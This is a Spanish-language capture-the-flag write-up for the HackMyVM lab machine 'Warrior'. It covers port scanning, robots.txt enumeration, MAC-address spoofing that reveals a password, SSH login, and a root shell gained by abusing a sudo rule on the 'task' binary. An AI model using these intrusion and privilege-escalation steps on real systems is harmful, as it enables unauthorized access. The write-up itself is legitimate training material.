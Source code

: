 ```yaml
---
date: 2022-04-19 23:48:05
layout: post
title: Warrior - HackMyVm
subtitle: 
description: >-
    Warrior es una máquina de nivel fácil de la plataforma HackMyVm en la que tendremos una explotación diferente a lo que estamos acostumbrados y una escalada a través de un binario SUID.
image: /assets/images/HMV/Warrior-HackMyVM/portada.png
optimized_image: /assets/images/HMV/Warrior-HackMyVM/portada.png
category: blog
tags:
  - Linux
  - blog
author: elc4br4
paginate: true
---
```



# Escaneo de Puertos

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
| http-robots.txt: 7 disallowed entries 
| /admin /secret.txt /uploads/id_rsa /internal.php 
|_/internal /cms /user.txt
|_http-server-header: nginx/1.18.0
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Como vemos tenemos un robots.txt

Abro el navegador y comienzo a explorar el servidor web y sus rutas

Una vez accedo a la ip encuentro lo siguiente:


![](/assets/images/HMV/Warrior-HackMyVM/warrior.png)


Si revisamos el archivo robots.txt encontramos varias rutas

```bash
Disallow:/admin
Disallow:/secret.txt
Disallow:/uploads/id_rsa
Disallow:/internal.php
Disallow:/internal
Disallow:/cms
Disallow:/user.txt
```

Voy accediendo una a una a todas las rutas, algunas me devuelven el error 404 y 403.

Excepto las rutas /user.txt … /secret.txt … /internal.php

En la ruta */user.txt* encontramos la palabra *loco* que podría ser un usuario del sistema.

En la ruta */secret.txt* encontramos algo más curioso

`0123456789ABCDEF`

Estas letras y números podrían servirnos posteriormente.

Finalmente reviso la ruta */internal.php* y me encuentro con lo siguiente.

![](/assets/images/HMV/Warrior-HackMyVM/internal.png)

Y tenemos otro posible usuario, *bro*

Además de eso nos dice que debemos cambiar la MAC interna como nos muestra *00:00:00:00:00:a?*

Pero nos falta una caracter al final de la dirección MAC, aqui es donde entra en juego el archivo secret.txt

Fui probando una a una hasta que di con la dirección correcta.

![](/assets/images/HMV/Warrior-HackMyVM/mac.png)

Una vez cambiada la dirección fisica de nuestra máquina atacante volvemos a acceder a la ruta /internal.php y encontramos una contraseña.

`Good!!!!!<!-- Your password is: Zurviv0r1 -->`

Ahora podemos acceder por ssh usando uno de los usuarios encontrados y la contraseña.

```bash
❯ ssh bro@192.168.0.31
The authenticity of host '192.168.0.31 (192.168.0.31)' can't be established.
ECDSA key fingerprint is SHA256:EHC+cRjEjv6OiTStHF158ViuvMIv/FYjdAKpF4L0tkY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.31' (ECDSA) to the list of known hosts.
bro@192.168.0.31's password: 
Linux warrior 5.10.0-11-amd64 #1 SMP Debian 5.10.92-1 (2022-01-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Feb  8 04:03:20 2022 from 192.168.1.51

bro@warrior:~$ id
uid=1000(bro) gid=1000(bro) groups=1000(bro),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

# ESCALADA DE PRIVILEGIOS

Ejecuto `sudo -l` para comprobar si podemos ejecutar algun binario como root sin contraseña.

Si usamos directamente `sudo -l` nos arroja un mensaje de que el comando no se ha encontrado asique pruebo con la ruta completa de sudo.

```bash
bro@warrior:~$ /usr/sbin/sudo -l
Matching Defaults entries for bro on warrior:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/binUser bro may run the following commands on warrior:
    (root) NOPASSWD: /usr/bin/task
```

Podemos ejecutar el binario task como root sin contraseña asique me dirijo a la web de GTFOBINS.


![](/assets/images/HMV/Warrior-HackMyVM/suid.png)

```bash
bro@warrior:~$ /usr/sbin/sudo /usr/bin/task execute /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

Un CTF un poco diferente pero brutal como siempre creado por SML.
